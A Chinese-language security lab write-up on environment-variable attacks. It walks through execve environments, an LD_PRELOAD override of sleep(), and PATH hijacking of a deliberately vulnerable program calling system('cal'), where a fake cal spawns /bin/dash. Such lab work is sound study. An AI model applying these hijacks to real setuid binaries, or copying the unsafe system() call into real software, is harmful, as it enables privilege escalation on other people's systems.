 #### 1.实验原理
![8.png](https://i.loli.net/2021/03/09/GvbAgRHKmMkdqWn.png)


#### 2.实验环境：
Ububtu 16.04
#### 3.实验过程：
##### 实验1 打印环境变量
```c
#include<stdio.h>
extern char ** environ;
int main(int argc, char*argv[], char* envp[])
{
  int i = 0;
  char* v[2];
  char* newenv[3];

  if(argc < 2) return 0;
  v[0] = "/usr/bin/env";
  v[1] = NULL;
  newenv[0] = "AAA=aaa";
  newenv[1] = "BBB=bbb";
  newenv[2] = NULL;

  switch(argv[1][0])
  {
    case '1':
      execve(v[0], v, NULL);
    case '2':
      execve(v[0], v, newenv);
    case '3':
      execve(v[0], v, environ);
    default:
      execve(v[0], v, NULL);

  }
  return 0;

}
```
![10.png](https://i.loli.net/2021/03/09/tWgfrHMcilEoPaY.png)

##### 实验2 shell 变量和环境变量

- ![7.png](https://i.loli.net/2021/03/09/VfyQ2uIjHk6JPev.png) 
- ![9.png](https://i.loli.net/2021/03/09/K9fSysVRv54l2PB.png) 
- ![11.png](https://i.loli.net/2021/03/09/lsPLecraJEm2RHq.png)

##### 实验3 动态链接环境变量LD_PRELOAD

```C
//mytest.c
#include<stdio.h>
#include<unistd.h>
int main(int argc, char*argv[], char* envp[])
{
  sleep(1);
  return 0;

}
```
```C
//sleep.c
#include<stdio.h>

void sleep(int s)
{
  printf("I am not sleeping.\n");

}
```

* 将sleep.c编译成动态链接库 libmylib.so.1.0.1并加入LD_PRELOAD环境变量中

- ![12.png](https://i.loli.net/2021/03/09/yRdnp1sFVQStJzb.png) 
- ![13.png](https://i.loli.net/2021/03/09/T91WVrMaQEYoIOf.png)

* 当EUID和RUID不同时，LD_PRELOAD环境变量被忽视
- ![14.png](https://i.loli.net/2021/03/09/pAIQvto4Hk9Xjhb.png) 
- ![15.png](https://i.loli.net/2021/03/09/tFiNB3bkvCY4AdM.png)

##### 实验4 外部程序注入
```c
//vul.c
#include<stdlib.h>
int main(int argc, char*argv[], char* envp[])
{
  system("cal");
  return 0;

}
```

```c
//cal.c
#include<stdlib.h>
int main(int argc, char*argv[], char* envp[])
{
  system("/bin/dash");
  return 0;

}
```

* 修改PATH
  
- ![17.png](https://i.loli.net/2021/03/09/NDFZXYyphS48J6x.png) 
- ![16.png](https://i.loli.net/2021/03/09/zQjCJVHv8BPKmRc.png)
* ppt中这里获得了root权限，本次实验结果是用户权限

#### 4.总结

修改环境变量可能造成程序有意向不到的结果
